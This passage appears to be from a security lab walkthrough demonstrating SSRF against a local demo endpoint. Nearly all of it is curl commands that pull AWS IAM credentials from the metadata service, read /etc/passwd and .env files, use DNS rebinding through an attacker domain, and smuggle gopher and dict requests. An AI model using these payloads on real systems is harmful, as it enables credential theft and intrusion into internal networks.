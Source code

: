 #### Step 4: Cloud Metadata Access (AWS)

```bash
# AWS EC2 metadata
curl "http://localhost:3000/api/fetch-url?url=http://169.254.169.254/latest/meta-data/"

# Get IAM credentials
curl "http://localhost:3000/api/fetch-url?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://localhost:3000/api/fetch-url?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/MyRole"
```

**Response might include:**
```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2025-10-06T..."
}
```

✅ **AWS credentials exposed!**

#### Step 5: File Protocol Exploitation

```bash
# Try to read local files
curl "http://localhost:3000/api/fetch-url?url=file:///etc/passwd"
curl "http://localhost:3000/api/fetch-url?url=file:///etc/hosts"
curl "http://localhost:3000/api/fetch-url?url=file:///proc/self/environ"

# Read application files
curl "http://localhost:3000/api/fetch-url?url=file:///app/.env"
curl "http://localhost:3000/api/fetch-url?url=file:///app/package.json"
```

#### Step 6: DNS Rebinding Attack

```bash
# Set up DNS that initially resolves to attacker IP,
# then rebinds to internal IP
curl "http://localhost:3000/api/fetch-url?url=http://rebind.attacker.com"

# The domain might resolve to:
# First request: 1.2.3.4 (external, passes validation)
# Second request: 192.168.1.100 (internal, after cache expires)
```

#### Step 7: Protocol Smuggling

```bash
# Try different URL protocols
curl "http://localhost:3000/api/fetch-url?url=gopher://localhost:6379/_PING"
curl "http://localhost:3000/api/fetch-url?url=dict://localhost:11211/stats"
curl "http://localhost:3000/api/fetch-url?url=ftp://internal-ftp-server/"
```

